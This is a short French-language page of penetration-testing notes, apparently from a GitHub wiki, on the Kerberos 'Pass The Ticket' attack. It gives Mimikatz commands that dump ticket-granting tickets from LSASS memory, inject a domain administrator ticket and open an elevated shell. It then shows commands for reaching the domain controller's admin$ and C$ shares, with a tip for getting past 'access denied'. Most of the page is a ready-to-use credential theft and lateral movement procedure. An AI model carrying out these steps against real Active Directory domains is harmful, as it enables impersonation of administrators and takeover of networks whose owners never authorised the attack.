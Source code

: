 ## Pass The Ticket

[Mimikatz](Mimikatz.md)

Passer le ticket fonctionne en vidant le TGT de la mémoire LSASS (processus de mémoire qui stocke les informations d'identification sur un serveur d'annuaire actif) de la machine.

> Lorsque vous videz les tickets avec mimikatz, cela nous donnera un ticket `.kirbi` qui peut être utilisé pour obtenir l'administrateur de domaine si un ticket d'administrateur de domaine se trouve dans la mémoire LSASS.

> Toujours prendre un ticket administrateur du krbtgt

```sh
sekurlsa::tickets /export
# exportera tous les tickets .kirbi dans le répertoire actuel

kerberos::ptt [0;2f08fb]-2-0-60a10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
# Toujours prendre un ticket administrateur du krbtgt

misc::cmd
# ouvrira une nouvelle invite de commande élevée
```
Ici nous vérifions simplement que nous avons réussi à usurper l'identité du ticket en répertoriant nos tickets en cache.

```sh
klist
# Nous n'utiliserons pas de mimikatz pour le reste de l'attaque.
```

Aores avoir usurpé l'identité du ticket, ce qui nous donne les mêmes droits que le TGT que nous avons usurpez. 

Pour acceder a une machine du domaine:

```sh
dir \\DOMAIN-CONTROLLER\admin$
dir \\Machin-IP\C$
```

## Problème rencontré
Il peut arrive que lorsque nous essayons d’accéder au répertoire `admin$` sur un DC, nous obtenons simplement `« Accès refusé »` !

Pour résoudre ce problème, vous devez utiliser le nom d'hôte du DC

```sh
nltest /dc:CONTROLLER.LOCAL
# win2012dc.CONTROLLER.LOCAL
```

```sh
dir \\win2012dc.CONTROLLER.LOCAL\admin$
```